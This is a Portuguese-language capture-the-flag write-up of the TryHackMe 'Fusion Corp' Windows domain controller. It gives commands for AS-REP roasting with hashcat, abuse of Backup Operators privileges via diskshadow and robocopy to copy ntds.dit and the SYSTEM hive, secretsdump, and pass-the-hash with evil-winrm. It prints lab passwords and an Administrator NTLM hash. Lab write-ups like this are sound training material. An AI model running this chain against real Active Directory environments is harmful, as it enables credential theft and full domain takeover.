



> [!Informações]
> - O IP da máquina foi adicionado ao `/etc/hosts` com a URL `http://fusioncorp.thm/`
> - Período: 29/09/2025 a 01/10/2025
> - Máquina do `TryHackMe` de Nível Difícil
> - Sistema Operacional: Windows

# Sumário

1. [[#1.Reconhecimento]]
2. [[#2.Enumeração]]
	1. [[#2.1 Nmap]]
	2. [[#2.2 IIS Tilde Enumeration (Gobuster)]]
3. [[#3.Exploração]]
	1. [[#3.1 Tentativa de enumeração de contas com Kerbrute]]
	2. [[#3.2 AS-REP Roasting — enumeração e extração de credenciais]]
		1. [[#3.2.1 Quebrando Senha Kerberos AS-REP com Hashcat]]
		2. [[#3.2.2 Dica Opcional De Senha em texto claro para Hash NTLM]]
	3. [[#3.3 NetExec — Acesso a serviços remotos]]
		1. [[#3.3.1 SMB — Verificação de acesso a compartilhamentos]]
		2. [[#3.3.2 RDP — Verificação de acesso à interface gráfica remota]]
		3. [[#3.3.3 WinRM — Verificação de execução remota (acesso confirmado)]]
4. [[#4. Pós-Exploração]]
	1. [[#4.1 Acessando a usuário `lparker`]]
		1. [[#4.1.1 Coletando Informações]]
	2. [[#4.2 Pivoting — Identificação e Coleta de Credenciais do Usuário `jmurphy`]]
	3. [[#4.3 Acesso ao usuário `jmurphy` — Privilégios identificados]]
5. [[#5. Escalação de Privilégios (PrivEsc)]]
	1. [[#5.1. Abuso de SeBackupPrivilege e SeRestorePrivilege via diskshadow]]
		1. [[#5.1.1 Extração do Hive SYSTEM]]
	2. [[#5.2 secretsdump — Hash do Administrador]]

# 1.Reconhecimento

Durante a etapa de reconhecimento, foi possível identificar os integrantes da equipe:

- John Mickel
- Andrew Arnold
- Lellien Linda
- Jhon Powel
  


# 2.Enumeração

## 2.1 Nmap

Com as etapas de enumeração, destaca-se a fase de identificação das portas abertas.


## 2.2 IIS Tilde Enumeration (Gobuster)

Foi realizada enumeração do serviço IIS com o objetivo de identificar diretórios e recursos passíveis de enumeração, essenciais para mapeamento de superfície de ataque.


```
contact
contacts
contactus
contact-us
contact_form
contact-form
contactpage
contact-page
getintouch
get-in-touch
support
support-team
support_desk
customer-support
customer_service
help
helpdesk
blog-d
blog-draft
blog-draft1
blog-drafts
blog-dev
blog-development
blog-dashboard
blog-preview
blog-preview1
blog-preview2
blog-v1
blog-v2
blog-temp
blog-tmp
blog-test
blog-beta
blog-staging
blog-backup
blog-old
blog-2020
blog-2021
blog-2022
blog-2023
blog-2024
blog-2025
blog-admin
blog_private
blog-d.htm
blog-d.html
blog-d.php
blog-draft.htm
blog-draft.html
blog-draft.php
blog-dev.htm
blog-dev.html
blog-dev.php
blog-preview.htm
blog-preview.html
blog-preview.php
blog-backup.htm
blog-backup.html
blog-backup.php
blog-old.htm
blog-old.html
blog-old.php
blog-temp.htm
blog-temp.html
blog-temp.php
blog-admin.htm
blog-admin.html
blog-admin.php
blog_private.htm
blog_private.html
blog_private.php
index.htm
index.html
index.php
home.htm
home.html
main.htm
main.html
```


Partindo para outra wordlist uma mais trabalhando em diretórios podermos verificar se existem em alguns lugares para poder aumentar o nível de enumeração.

```
js                   (Status: 301) [Size: 148] [--> http://fusioncorp.thm/js/]
css                  (Status: 301) [Size: 149] [--> http://fusioncorp.thm/css/]
img                  (Status: 301) [Size: 149] [--> http://fusioncorp.thm/img/]
lib                  (Status: 301) [Size: 149] [--> http://fusioncorp.thm/lib/]
backup               (Status: 301) [Size: 152] [-->http://fusioncorp.thm/backup/]
CSS                  (Status: 301) [Size: 149] [--> http://fusioncorp.thm/CSS/]
JS                   (Status: 301) [Size: 148] [--> http://fusioncorp.thm/JS/]
Backup               (Status: 301) [Size: 152] [-->http://fusioncorp.thm/Backup/]
Js                   (Status: 301) [Size: 148] [--> http://fusioncorp.thm/Js/]
Css                  (Status: 301) [Size: 149] [--> http://fusioncorp.thm/Css/]
IMG                  (Status: 301) [Size: 149] [--> http://fusioncorp.thm/IMG/]
Img                  (Status: 301) [Size: 149] [--> http://fusioncorp.thm/Img/]
BACKUP               (Status: 301) [Size: 152] [-->http://fusioncorp.thm/BACKUP/]
Lib                  (Status: 301) [Size: 149] [--> http://fusioncorp.thm/Lib/]
contactform          (Status: 301) [Size: 157]http://fusioncorp.thm/contactform/]
BackUp               (Status: 301) [Size: 152] [-->http://fusioncorp.thm/BackUp/]
```


| Name              | Username   |
| ----------------- | ---------- |
| Jhon Mickel       | jmickel    |
| Andrew Arnold     | aarnold    |
| Lellien Linda     | llinda     |
| Jhon Powel        | jpowel     |
| Dominique Vroslav | dvroslav   |
| Thomas Jeffersonn | tjefferson |
| Nola Maurin       | nmaurin    |
| Mira Ladovic      | mladovic   |
| Larry Parker      | lparker    |
| Kay Garland       | kgarland   |
| Diana Pertersen   | dpertersen |
O conteúdo deste arquivo revelou-se interessante devido aos nomes dos funcionários e aos possíveis usuários do sistema.

# 3.Exploração

Começando coletar informações da máquina


- Hostname = FUSION-DC
- S.O & Build = Windows 10 / Server 2019 Build 17763 x64
- Domínio = fusion.corp

Tentativa falha de autenticação via LDAP



## 3.1  Tentativa de enumeração de contas com Kerbrute

Kerbrute é uma ferramenta de auditoria de autenticação Kerberos focada em enumeração de usuários e brute-forcing (ataques de senha) contra domínios Active Directory que suportam Kerberos.


**Sem Sucesso!**

## 3.2 AS-REP Roasting — enumeração e extração de credenciais

**AS-REP Roasting** é uma técnica de extração offline de credenciais que explora contas do Active Directory cujo requisito de **Pre-Authentication (PA-DATA)** está **desabilitado**. Quando o KDC responde a um pedido AS-REQ para um usuário sem pre-auth, ele inclui uma parte criptografada (derivada da senha do usuário). Um atacante pode capturar essa resposta e realizar **ataque offline de força/brute-force** contra o material criptografado para recuperar a senha.


```
$krb5asrep$23$lparker@FUSION.CORP:fa21331ef721cf44516f855addc0cfb7$61f4fc42a4b85ecbfaed57ae043a33cca4c4b7e1123d42f70fa1a5355e11077a2232f4c7619072601cf21b9adfb2dcba0716965025f367ded8809641f3eedff929d4ae3e44e525ec25a7c0c6815402e5326f8c61aa1e7004a8f3b97aca92fa4fef6703c9cf8c25a772365fd8cd0fe0c09b3501ffb2793a89076d64266efd30cfde33af2bd09c6d1b3d113b27c46488b8407df3c712dfa7c5f70631eb1aeae823aa8e2c25ebe80bfc668b068be93377212a6b9901f5db28cbcf094082d7954c45f338fe3b34f7c4d88aa05620ca5e6b58b62c9e3fd5a09f7d3e6d8a15735b7da8772bc1d19971fb3a4afa
```

### 3.2.1 Quebrando Senha Kerberos AS-REP com Hashcat

`hashcat -m 18200 -a 0 hash-asrep.txt /home/pop_star/Wordlist/SecLists/Passwords/Leaked-Databases/rockyou.txt`


> [!Hash Quebrada]
> Usuário: lparker
> Senha: !!abbylvzsvs2k6!

### 3.2.2 Dica Opcional: De Senha em texto claro para Hash NTLM

As vezes senhas com caracteres especiais podem ser necessários caracteres de escape e afins e daí o que pode-se fazer é uma tática interessante é transformar a senha em texto claro para HASH NTLM



https://codebeautify.org/ntlm-hash-generator


## 3.3 NetExec — Acesso a serviços remotos

### 3.3.1 SMB — Verificação de acesso a compartilhamentos


Sim

### 3.3.2 RDP — Verificação de acesso à interface gráfica remota

Sim

### 3.3.3 WinRM — Verificação de execução remota (acesso confirmado)


**SIM!** 

Como demonstrado na imagem, o status **"Pwn3d!"** indica que temos acesso remoto completo via WinRM.

# 4. Pós-Exploração
## 4.1 Acessando a usuário `lparker`


### 4.1.1 Coletando Informações


Com base na saída apresentada, confirmamos que a máquina avaliada atua como **Domain Controller (DC)** no domínio.


Comecei buscar informação para saber se eu estou em algum grupo de "administrators"

### 4.2 Pivoting — Identificação e Coleta de Credenciais do Usuário `jmurphy`

Comecei buscar informação do outro usuário que eu encontrei na máquina


Na descrição do usuário foi encontrada a senha em texto claro. Além disso, o usuário é membro de grupos com privilégios que o tornam um vetor potencial para escalada de privilégios.

> [!Pivoting]
> jmurphy:u8WC3!kLsgw=#bRY


## 4.3 Acesso ao usuário `jmurphy` — Privilégios identificados

Ao assumir a sessão do usuário `jmurphy`, identificamos que a conta possui privilégios de **Backup Operators**. Membros desse grupo conseguem realizar operações de backup/recuperação que permitem acesso a cópias consistentes de dados protegidos pelo sistema, incluindo artefatos de diretório (por exemplo, o banco de dados do Active Directory). Em consequência, a presença desse privilégio representa um vetor significativo para obtenção de credenciais e escalada de privilégios a domínio, se explorado indevidamente.


# 5. Escalação de Privilégios (PrivEsc)
# 5.1. Abuso de SeBackupPrivilege e SeRestorePrivilege via diskshadow

O que podemos fazer é criar um Arquivo Shell Distribuído (DSH). Este arquivo conterá os comandos apropriados para executarmos o utilitário diskshadow na unidade C: e, por fim, no arquivo ntds.dit.

`viper.dsh`

```
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```


Após a conclusão, use o comando `unix2dos`para converter o arquivo para o formato DOS.
```
unix2dos viper.dsh
```


`New-Item -Type Directory C:\temp`


`upload <local onde está o arquivo viper.dsh na máquina atacante>`



`diskshadow /s viper.dsh`


`robocopy /b x:\windows\ntds . ntds.dit`


### 5.1.1 Extração do Hive SYSTEM

Em seguida, extrairemos o _hive_ SYSTEM — um arquivo do Registro que contém dados do 
sistema usados em análises de credenciais.

`reg save hklm\system c:\temp\system`


Com isso, foi necessário apenas usar o comando `download` para baixar o ntds.dit e o arquivo system hive

```
download ntds.dit
download system
```

## 5.2 secretsdump — Hash do Administrador


`secretsdump.py -ntds ntds.dit -system system local`


`evil-winrm -i fusion.corp -u Administrator -H 9653b02d945329c7270525c4c2a69c67`

